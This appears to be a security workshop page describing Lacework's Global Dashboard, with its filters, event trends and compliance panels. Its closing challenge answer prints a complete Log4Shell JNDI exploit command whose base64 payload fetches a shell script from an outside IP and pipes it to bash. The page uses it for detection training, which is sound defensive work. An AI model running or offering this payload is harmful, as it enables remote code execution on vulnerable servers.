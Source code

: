 ```yaml
---
title: "Lacework Global Dashboard"
chapter: false
draft: false
weight: 31
pre: "<b>3.1 </b>"
---
```


The _Global Dashboard_ displays a visual summary of the following items:

* All CloudTrail, network, user, and process events ingested by Lacework
* Entity behaviors identified by Lacework
* Events and critical events generated by Lacework

1. You can filter on a timeframe using the **Last …** drop-down located in the upper right corner. You can filter from the last 24 hours to 90 days (or 180 days if you have subscribed for additional storage).
2. Click **Trends** to switch the view to display **Events over Time**, a graph displaying events of varying severity (from critical to informational) over the same selected timeframe.
![Lacework Dashboard](/images/lacework-dashboard.png)
3. Filter events by severity, under **Events Over Time**, select one or more checkboxes.
{{% notice info %}}
The slider bars underneath the graph allow you to zoom in to a smaller time period during the selected timeframe, for example, you can adjust both left and right sliders during a 3-day window to view a 4-hour window.
{{% /notice %}}
4. Observe the **Compliance Trends Over Time** graph are two bar graphs that display CloudTrail and host events. The CloudTrail graph is populated with events only if a Lacework AWS integration is configured and the host graph is populated only if agents are deployed in your environment.
{{% notice info %}}
By default, the graph displays up to five event types. The listed order of the event types is weighted by the severity of the events followed by the total number of events, for example, one critical event is listed before two high severity events. If more than 5 event types are available for the selected time period, you can view the remaining event types by clicking the **View ...** link below the graph.
{{% /notice %}}
![Compliance Trends Over Time](/images/lacework-compliance-trends-over-time.png)
5. Observe the **Cloud Compliance Events** and **Host Events** panels to see the breakdown of events.
![Lacework Compliance Events](/images/lacework-compliance-events.png)

The _Global Dashboard_ provides a quick view of your cloud security posture. It gives you a summary of your security data, trends and events.

***
# Challenge
{{%expand "In the Host Events pane, click through the New Application events to see what types of applications were launched. Select the curl event and explore the details. Can you find the curl command that was executed?" %}} curl -v http://a7aedb671d05b4dc996f3243e1ca253e-1577402981.us-west-2.elb.amazonaws.com:8080 -H X-Api-Version:${jndi:ldap://93.189.42.8:5557/Basic/Command/Base64/KGN1cmwgLXMgOTMuMTg5LjQyLjgvbGguc2h8fHdnZXQgLXEgLU8tIDkzLjE4OS40Mi44L2xoLnNoKXxiYXNo} {{% /expand%}}
